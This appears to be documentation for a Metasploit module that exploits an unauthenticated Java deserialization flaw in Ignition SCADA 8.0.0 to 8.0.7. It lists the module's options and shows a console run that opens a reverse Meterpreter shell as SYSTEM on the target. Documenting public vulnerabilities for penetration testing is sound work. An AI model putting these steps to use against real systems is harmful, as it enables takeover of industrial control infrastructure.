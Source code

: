This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product, versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable.

## Example

```
Module options (exploit/multi/scada/ignition_automation_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```


## Output

```
msf5 exploit(multi/scada/ignition_automation_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/scada/ignition_automation_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf5 exploit(multi/scada/ignition_automation_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf5 exploit(multi/scada/ignition_automation_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

